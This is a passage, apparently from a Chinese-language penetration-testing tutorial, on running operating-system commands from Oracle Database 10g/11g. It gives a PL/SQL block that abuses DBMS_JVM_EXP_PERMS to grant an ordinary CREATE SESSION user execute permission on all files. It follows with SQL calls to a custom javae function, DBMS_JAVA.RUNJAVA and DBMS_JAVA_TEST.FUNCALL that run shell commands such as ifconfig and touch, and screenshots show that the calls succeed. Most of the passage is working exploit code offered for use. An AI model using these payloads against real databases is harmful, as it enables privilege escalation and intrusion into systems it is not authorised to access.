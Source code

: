 ![1609388411089.png](https://i.loli.net/2021/03/06/eX6tmaWVFgb2U54.png)



然后执行命令即可：

``` sql
select javae('/sbin/ifconfig') from dual;
```

![1609388495831.png](https://i.loli.net/2021/03/06/mvriwseJUu3MGlz.png)


### 3. DBMS_JAVA.RUNJAVA

> 测试环境：
> Oracle Database 11g Enterprise Edition Release 11.2.0.1.0 - 64bit
> Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit
> 
> 权限要求：
> + `CREATE SESSION`


先给当前用户赋予`java.io.FilePermission`：

``` sql
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 
'GRANT',USER(),'SYS','java.io.FilePermission',
'<<ALL FILES>>','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
```

然后执行命令：

``` sql
-- 11g
SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper touch /tmp/success') FROM DUAL;

-- 10g/11g, 注意10g中还需要readFileDescriptor和writeFileDescriptor
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','/sbin/ifconfig>/tmp/1.txt') FROM DUAL;
```

**11g:**

![1609597313673.png](https://i.loli.net/2021/03/06/jRnygHw5TsG1r96.png)


成功创建文件：
